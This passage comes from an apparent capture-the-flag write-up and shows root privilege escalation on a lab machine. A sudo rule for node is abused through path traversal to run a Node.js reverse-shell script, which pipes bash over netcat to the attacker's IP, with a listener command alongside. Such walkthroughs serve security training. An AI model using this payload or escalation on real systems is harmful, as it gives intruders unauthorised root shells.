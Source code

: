 ```javascript
``` 
<figure><center><img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra.github.io_Img/main/2023-03-03%2003_32_37-HACKING_MACHINE%20-%20VMware%20Workstation%2016%20Player%20(Non-commercial%20use%20only).png" alt=""></center><center><em><figcaption>Executing id</figcaption></em></center></figure>

* As you can see, we can execute commands of our choice with root privileges. <br/>

Let's try to get a proper root shell following the below steps:

1- Create a JavaScript file (let's call it ```root.js```) that contains the following JS code:
```javascript
const { exec } = require('child_process');

exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <Your_tun0_IP> 9999 >/tmp/f', (error, stdout, stderr) => {
  if (error) {
    console.error(`exec error: ${error}`);
    return;
  }
  console.log(`stdout: ${stdout}`);
  console.error(`stderr: ${stderr}`);
});
```
<figure><center><img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra.github.io_Img/main/2023-03-03%2003_50_23-HACKING_MACHINE%20-%20VMware%20Workstation%2016%20Player%20(Non-commercial%20use%20only).png" alt=""></center><center><em><figcaption>Reverse Shell script</figcaption></em></center></figure>

2- Start a netcat listener on port 9999 on your attacking machine:
```console
root@kali # nc -nlvp 9999
```

3- Run the JavaScript file with root privileges:
```console
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/root.js
```

**📍 root.txt:** <br/>

<figure><center><img src="https://github.com/YounesTasra-R4z3rSw0rd/YounesTasra.github.io_Img/blob/main/2023-03-10%2017_38_57-HACKING_MACHINE%20-%20VMware%20Workstation%2016%20Player%20(Non-commercial%20use%20only).png?raw=true" alt=""></center><center><em><figcaption>root.txt</figcaption></em></center></figure>

